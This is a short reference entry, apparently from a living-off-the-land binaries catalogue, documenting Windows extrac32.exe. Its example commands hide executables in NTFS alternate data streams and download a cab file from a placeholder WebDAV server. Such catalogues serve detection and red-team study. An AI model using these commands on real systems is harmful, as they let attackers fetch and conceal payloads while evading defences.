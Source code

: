 ## Extrac32.exe

* Functions: Add ADS, Download, Copy

```
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe    

extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe    

extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt   

extrac32 /C c:\sourcefile.txt c:destFile.txt
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* egre55 - @egre55

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\extrac32.exe
c:\windows\sysWOW64\extrac32.exe
```

Notes:
For help menu
```
extract32 /? | more
```


 
